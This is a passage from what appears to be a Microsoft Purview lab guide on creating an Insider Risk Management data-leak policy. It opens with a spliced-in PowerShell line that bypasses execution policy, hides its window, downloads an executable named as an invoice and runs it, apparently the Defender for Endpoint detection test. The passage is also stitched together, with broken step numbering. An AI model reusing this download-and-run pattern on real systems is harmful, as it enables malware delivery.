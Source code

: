 ```powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyleHidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'```
    password. (replace {TENANTPREFIX} with your tenant prefix given on the
    resources tab).

2.  Go to **Insider Risk Management** and select the **Policies** tab.
    Select **Create policy** to open the policy wizard.

![A screenshot of a computer Description automatically
generated](./media/image27.png)

3.  On the **Choose a policy template** page, choose **Data leaks**,
    under **Data leaks**. Select **Next** to continue.

![A screenshot of a computer Description automatically
generated](./media/image64.png)

4.  On the **Name and description** page, complete the following fields:

    - Name (required): ```Data leaks by a user```

    - Description (optional): ```This is a test policy forthe preventing data leaks.```

5.  Select **Next** to continue.

![A screenshot of a computer Description automatically
generated](./media/image65.png)

6.  On the **Choose users and groups** page, select **Include all users and
    groups**. Select **Next** to continue.

![A screenshot of a computer Description automatically
generated](./media/image32.png)

7.  On the **Exclude users and groups** page, select **Next**.
8.  On the **Decide whether to prioritize** page, select **I want to specify
    priority content**. Select the check box for **SharePoint
    sites**, **Sensitivity labels** and **Sensitive info types**. Select **Next** to
    continue.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image66.png)

8.  On the SharePoint sites to prioritize page, select **Add or edit
    SharePoint sites**. On the flyout pane,
    select **https://{TENANTPREFIX}.sharepoint.com/sites/ContosoWeb1** and
    select **Add**. Then click **Next**.

9.  On the **Sensitivity labels to prioritize** page, select **Add or edit
    sensitivity labels**. On the flyout pane, select **Internal/Employee
    data (HR)** and select **Add**. Then click **Next**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image50.png)

10. On the **Sensitive info types to prioritize** page, select **Add or edit
    sensitive info types**. On the flyout pane, search for and
    select **Credit Card Number**, **Contoso Employee ID** and **Contoso Employee
    EDM**. Select **Add**. Then click **Next**.

![A screenshot of a computer Description automatically
generated](./media/image51.png)

11. On **Decide whether to score only activity with priority content**,
    select **Get alerts for all activity**. Select **Next**.
```